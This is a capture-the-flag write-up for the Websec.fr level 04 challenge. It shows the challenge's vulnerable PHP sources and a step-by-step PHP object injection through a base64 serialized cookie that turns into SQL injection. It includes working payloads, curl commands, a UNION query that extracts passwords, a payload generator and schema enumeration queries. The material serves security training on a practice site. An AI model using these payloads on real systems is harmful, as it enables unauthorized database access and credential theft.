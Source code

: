 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2018-03-22
date: 2018-03-22
title: 'Websec.fr babysteps: Level 04 - 1pts'
tags: [hackthebox]
mathjax: false
imagefeature: 
description: 'Websec.fr Easy: Level 01'
category: Websec.fr
chart: null
---
```



## Problem
---

Problem URL : https://websec.fr/level04/index.php<br />
Problem Description : Since we're lazy, we take advantage of php's garbage collector to properly display query results.
                      We also do like to write neat OOP. You can get the sources here and here.

```php
//source1.php
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
?>

<!DOCTYPE html>
<html>
<head>
        <title>#WebSec Level Four</title>
        <link rel="stylesheet" href="../static/bootstrap.min.css" />
</head>
        <body>
                <div id="main">
                        <div class="container">
                                <div class="row">
                                        <h1>LevelFour <small> - Cereal is nation</small></h1>
                                </div>
                                <div class="row">
                                        <p class="lead">
                        Since we're lazy, we take advantage of php's garbage collector to properly display query results.<br>
                         We also do like to write neat OOP.
                        You can get the sources <a href="source1.php">here</a> and <a href="source2.php">here</a>.
                                        </p>
                                </div>
                        </div>
                        <div class="container">
                <div class="row">
                    <form class="form-inline" method='post'>
                        <input name='id' class='form-control' type='text' placeholder='User id'>
                        <input class="form-control btn btn-default" name="submit" value='Go' type='submit'>
                                        </form>
                                </div>
                        </div>
                </div>
        </body>
</html>
```

```php
//source2.php
<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
?>
```


## Solve
---

The problem here our ip address saved in cookie within serialized base64 string,
the cookie named `leet_hax0r` , if the cookie is exsist the script trying to unsealized it.

so this vulnerable to PHP Object Injection because the class SQL put his action to query in `__destruct` magic php method
that will be called when the object destroyed, so if we create SQL object with unserialize and supliying custom query to `$query` variable
we could have sql injection ヽ(・∀・)ﾉ

```
echo -n 'O:3:"SQL":1:{s:5:"query";s:37:"SELECT username FROM users WHERE id=1";}' |base64
TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6Mzc6IlNFTEVDVCB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPTEiO30=
```

with this serialized object we could check if the custom query we suplied running correctly with this command
```
curl -v https://websec.fr/level04/index.php -H "Cookie: leet_hax0r=TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6Mzc6IlNFTEVDVCB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPTEiO30="

if you see : <strong>Username:<strong> flag</p>
so that validate the exploit is working
 ```
 
 now what query we need to build to get the flag? so we need look closely again
 to the `__destruct()` function.
 
 ```php 
     public function __destruct() {
         if (!isset ($this->conn)) {
             $this->connect ();
         }
         
         $ret = $this->execute ();
         if (false !== $ret) {    
             while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                 echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
             }
         }
     }
 ```
 
 this function will only output $row['username'] and i don't think the flag in username 
 column so we need to use UNION Query to manipulate this, the column still username but we
 want to extract a password so we construct serialized object with that purposes.
 
 ```
 echo -n 'O:3:"SQL":1:{s:5:"query";s:81:"SELECT username FROM users WHERE id=1 UNION SELECT password from users WHERE id=1";}' |base64
 TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6ODE6IlNFTEVDVCB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPTEgVU5JT04gU0VMRUNUIHBhc3N3b3JkIGZyb20gdXNlcnMgV0hFUkUgaWQ9MSI7fQ==
 
 curl -v https://websec.fr/level04/index.php -H "Cookie: leet_hax0r=TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6ODE6IlNFTEVDVCB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkP
 TEgVU5JT04gU0VMRUNUIHBhc3N3b3JkIGZyb20gdXNlcnMgV0hFUkUgaWQ9MSI7fQ=="
 
 <!DOCTYPE html>
 <html>
 <head>
         <title>#WebSec Level Four</title>
         <link rel="stylesheet" href="../static/bootstrap.min.css" />
 </head>
         <body>
                 <div id="main">
                         <div class="container">
                                 <div class="row">
                                         <h1>LevelFour <small> - Cereal is nation</small></h1>
                                 </div>
                                 <div class="row">
                                         <p class="lead">
                                                 Since we're lazy, we take advantage of php's garbage collector to properly display query results.<br>
                                                  We also do like to write neat OOP.
                                                 You can get the sources <a href="source1.php">here</a> and <a href="source2.php">here</a>.
                                         </p>
                                 </div>
                         </div>
                         <div class="container">
                                 <div class="row">
                                         <form class="form-inline" method='post'>
                                                 <input name='id' class='form-control' type='text' placeholder='User id'>
                                                 <input class="form-control btn btn-default" name="submit" value='Go' type='submit'>
                                         </form>
                                 </div>
                         </div>
                 </div>
         </body>
 </html>
 * Connection #0 to host websec.fr left intact
 <p class="well"><strong>Username:<strong> WEBSEC{9abd8e824[REDACTED]bb662769c08500}</p><p class="well"><strong>Username:<strong> flag</p>#
```

We Got The flag  <(￣︶￣)>

**Bonus:** we could use `as` too for manipulate the column name to username `select password as username from users where id=1`

if you lazy to construct the serialized payload manually you can use this and use the base64 as cookie
```php
<?php

class SQL {
    public $query = 'SELECT password AS username FROM users WHERE id=1';
    public $conn;
}

echo base64_encode(serialize(new SQL()));
```

```
SELECT username FROM users WHERE id=-1 union select group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%'-- - (To find what table is available)
SELECT username FROM users WHERE id=-1 union select sql from sqlite_master where type!='meta' and sql not null and name not like 'sqlite_%' and name='users'-- - (To find what is the table column)
```